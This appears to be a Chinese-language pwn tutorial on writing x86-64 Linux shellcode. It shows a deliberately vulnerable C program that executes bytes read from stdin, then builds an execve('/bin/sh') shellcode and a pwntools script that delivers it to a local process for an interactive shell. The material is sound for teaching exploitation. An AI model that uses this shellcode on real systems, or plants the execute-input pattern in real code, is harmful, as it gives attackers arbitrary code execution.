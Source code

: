 附：[linux 系统调用\_linux 系统调用号-CSDN 博客](https://blog.csdn.net/weixin_51055545/article/details/128722431)

## shellcode 编写

### 尝试

测试程序：

```bash
#include<stdio.h>
#include<stdlib.h>

int main()
{
void *p = mmap(0x20240000, 0x1000uLL, 7, 34, -1, 0LL);
void (*a)(void);
puts("shellcode:");
read(0,p,0x100);
((void (*)(void))p)();
return 0;
}
```

编译命令：

```bash
gcc -o test test.c
```

首先，让我们自己写一个实现一个简单逻辑调用 execve("/bin/sh\\x00",0,0) 的 shellcode

调用了 execve 函数，三个参数分别是是"/bin/sh"字符串地址，0,0

两个为 0 的参数好写，我们只需要用 mov 指令将 0 赋值即可

/bin/sh字符串地址怎么办呢？这时我们就要用到push和rsp的关系了

因为 push 会将一个值直接压入栈顶，那么执行 push 后 rsp 的值就是我们 push 的这个值的地址

那么我们只要把/bin/sh\\x00 转换成 16 进制 ascall 码 push 后再把 rsp 的值赋值给 rdi(第一参数) 即可

但是 push 接立即数的话只能 push 四个字节，所以我们要先把值存到寄存器中再 push

不过根据小端序的原理，每个字母需要倒过来，

然后查出 execve 的系统调用号为 59

就可以写出以下 shellcode

```bash
from pwn import *
context.log_level='debug'
context(os='linux',arch = 'amd64')
io = process('./test')

shellcode = asm('''
    mov rbx, 0x0068732f6e69622f
    push rbx
    mov rdi,rsp
    mov rsi,0
    mov rdx,0
    mov rax,59
    syscall
''')
io.sendafter(':\n',shellcode)
io.interactive()
```
